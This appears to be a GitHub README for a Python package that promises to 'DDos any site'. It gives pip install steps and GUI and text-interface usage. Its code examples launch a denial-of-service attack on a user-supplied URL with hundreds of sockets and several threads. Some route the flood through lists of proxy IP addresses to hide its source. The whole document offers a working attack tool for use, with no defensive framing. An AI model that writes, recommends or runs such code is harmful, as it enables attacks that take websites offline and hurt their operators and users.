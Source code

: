 # DDos

DDos any site using python

## Install

### From PyPI

`pip3 install ddos_xr` (You should really use this version)


## Usage

### GUI

To use it just run:

```sh
DDos
```

or

```sh
ddos
```

in the terminal to launch the GUI (Tkinter is a requirement for the GUI so use: `sudo apt-get update && sudo apt-get install python3-tk -y` on Linux. On Windows it's already installed)

### TUI

To use the text-based user interface see this python example:

```py
# import the needed functions

from ddos_xr import checkUrl, DDos 

while True:
    # get a url from the user
    
    url = input("Enter URL: ") 
    
    # if it's formatted correctly exit the loop
    
    if checkUrl(url): break
    
    # else, go back
    
    else: print("This URL isn't formatted correctly, try again") 
    
# ddos this url with 400 sockets and 10 threads  

DDos(url, sockets = 400, threads = 10)
```

or simply:

```py
from ddos_xr import DDos
DDos(input("Enter URL: ")) # if the url isn't formatted correctly it will have an assertion error, use 500 sockets and 10 threads, no proxies will be used
```

The DDos function also has a `proxies` optional variable and there is a `checkProxy` function, you can use them like so:

```py
from ddos_xr import DDos, checkProxy
assert checkProxy("109.237.91.155:8080")
assert checkProxy("178.128.37.176:80")
DDos(input("Enter URL: "), proxies = ["109.237.91.155:8080", "178.128.37.176:80"])
```

If you give an invalid proxy you will get an assertion error.

Example for proxy file:
```py
from ddos_xr import DDos, checkProxy

def proxies_file(file_path):
    try:
        with open(file_path, 'r') as f:
            return [line.strip() for line in f if checkProxy(line.strip())]
    except Exception as e:
        print(f"Error reading proxy file: {e}")
        return []

url = input("Enter URL: ")
proxy_file = input("Enter the path to the proxy file: ")

proxies = proxies_file(proxy_file)

if proxies:
    DDos(url, proxies=proxies)
else:
    print("No valid proxies found.")
```
